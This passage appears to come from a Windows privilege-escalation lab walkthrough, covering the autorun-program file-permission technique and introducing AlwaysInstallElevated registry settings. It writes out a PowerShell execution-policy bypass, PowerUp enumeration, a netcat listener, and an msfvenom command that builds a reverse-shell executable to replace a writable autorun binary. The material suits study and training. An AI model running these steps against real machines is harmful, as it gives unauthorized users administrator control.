 ```console
C:\Temp> powershell -ep bypass
PS C:\Temp>. .\PowerUp.sp1
PS C:\Temp> Invoke-AllChecks
```
![image](https://user-images.githubusercontent.com/59029171/161005302-73ecbb10-e186-4a84-b086-c271976655f5.png)

From the output, notice that the `"Everyone"` user group has `"FILE_ALL_ACCESS"` permission on the `"program.exe"` file. To gain administrator access, we can drop our malicious executable file by overwriting on the file.

## <span style="color:lightgreen">Exploitation</span>

### Kali VM

1. Start a netcat listener
```console
$ sudo nc -nvlp 53
```

2. Open an additional command prompt and type: 
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[tun0 IP] LPORT=53 -f exe -o program.exe
```
3. Transfer the generated file, `program.exe`, to the Windows VM.

### Windows VM

1. replace `program.exe` in `'C:\Program Files\Autorun Program'`

### Kali VM

1. Wait for a reverse shell on your kali machine.


# <span style="color:lightblue">AlwaysInstallElevated</span>

## <span style="color:lightgreen">Methodology</span>

AlwaysInstallElevated  is a type of Registry Escalation.

This option is equivalent to granting full administrative rights, which can pose a massive security risk. Microsoft strongly discourages the use of this setting.

To install a package with elevated (system) privileges, set the AlwaysInstallElevated value to "1" under both of the following registry keys:
```console
HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
```
If the AlwaysInstallElevated value is not set to "1" under both of the preceding registry keys, the installer uses elevated privileges to install managed applications and uses the current user's privilege level for unmanaged applications.
